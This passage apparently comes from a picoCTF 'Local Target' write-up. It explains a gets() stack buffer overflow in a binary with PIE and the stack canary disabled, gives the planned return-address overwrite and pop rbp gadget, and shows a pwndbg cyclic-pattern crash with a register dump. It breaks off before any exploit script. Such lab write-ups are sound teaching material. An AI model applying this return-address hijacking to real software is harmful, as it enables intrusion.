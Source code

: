 There are 2 important things in this code.

* `gets(input);` We have a buffer overflow, meaning we can redirect the flow of the program by overwriting the return address.
* There is a piece of code that reads the `flag.txt`.

As we can see, `PIE` is `disabled`, meaning we know the addresses of the binary, thus the address of the code that reads the flag. `Canary` is also `disabled`, meaning there is no problem overwriting the return address. Our goal is:

* Overwrite the return address (The offset is 40 bytes)
* Call `pop rbp; ret;` gadget to set `rbp` to a writable segment in our binary since `PIE` is off.
* Call the part of code that reads `flag.txt` which is at `main + 125`.

#### Finding overflow offset and pop rbp gadget

Inside `gdb` we create a cyclic sequence and crash the program.

```asm
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> r
Starting program: /home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Local Target/local-target 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a string: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

num is 1633771876
Bye!

Program received signal SIGSEGV, Segmentation fault.
0x00000000004013a1 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────
 RAX  0x0
 RBX  0x0
*RCX  0xc00
*RDX  0x4052a0 ◂— 'Bye!\ns 1633771876\n'
*RDI  0x7ffff7e1ba70 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x0
*R8   0x7ffff7e1ba70 (_IO_stdfile_1_lock) ◂— 0x0
*R9   0x7fffffffdcde ◂— '1633771876'
*R10  0x7ffff7c0d0c8 ◂— 0xf0022000065de
*R11  0x246
*R12  0x7fffffffdf48 —▸ 0x7fffffffe293 ◂— '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Local Target/local-target'
*R13  0x401236 (main) ◂— endbr64 
 R14  0x0
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffde38 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x4013a1 (main+363) ◂— ret 
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────
 ► 0x4013a1 <main+363>    ret    <0x6161616161616166>







```